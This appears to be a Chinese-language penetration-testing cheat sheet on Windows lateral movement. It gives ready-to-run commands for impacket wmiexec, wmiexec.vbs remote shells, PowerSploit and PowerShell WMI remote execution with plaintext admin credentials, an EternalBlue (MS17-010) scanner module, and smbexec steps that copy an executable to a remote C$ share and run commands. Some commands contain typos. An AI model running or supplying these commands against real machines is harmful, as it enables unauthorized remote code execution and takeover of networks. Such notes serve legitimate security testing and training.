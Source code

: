 - impacket中的wmiexec

```
wmiexec.py administrator:Aa123@192.xxx.xxx
```
- wmiexec.vbs

```
cscript.exe //noiogo wmiexec.vbs /shell 192.xxx.xxx.xxx administrator Aa123456@ 半交互shell

cscript.exe wmiexec.vbs /cmd 192.xxx administrator Aa123456 "ipconfig"

-wait 5000 ping/systeminfo等时间较长的命令

-persist nc等不需要结果但需要运行的程序
```

- Invoke-WmiCommand(powerSploit工具包)

```
$user= "pentest\administrator"
$password = ConvertTo-SecureString -String "a123456" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PsCredential
远程执行命令
$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $cred - CompuerName 192.xxxx
将执行结果输出到屏幕
$Remote.PayloadOutput
```

- Invoke-WMIMethod(powershell自带)

```
$user= "pentest\administrator"
$password = ConvertTo-SecureString -String "a123456" -AsPlainText -Force
$Cred = New-Object -TypeName System.Management.Automation.PsCredential
远程启动计算器
Invoke-WMIMethod -Class win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.xxx.xx.xxx" -Credential $cred
```

### 永恒之蓝

```
auxiliary/scanner/smb/smb_ms17_010
```
### smbexec使用
#### C++版smbexec

-  下载地址

```
https://github.com/sunorr/smbexec
```
- 使用

```
test.exe ipaddress username password command netshare
```
```
(1)上传execserver
net use \\192.xxxx "Aa123" /user:pentest\adminidtrator

cpoy execserver.exe \\192.xxx\c$\windows\

(2)客户端执行命令
test.exe 192.xxx.xxx.xxx administrator Aa123456 whoami c$
```
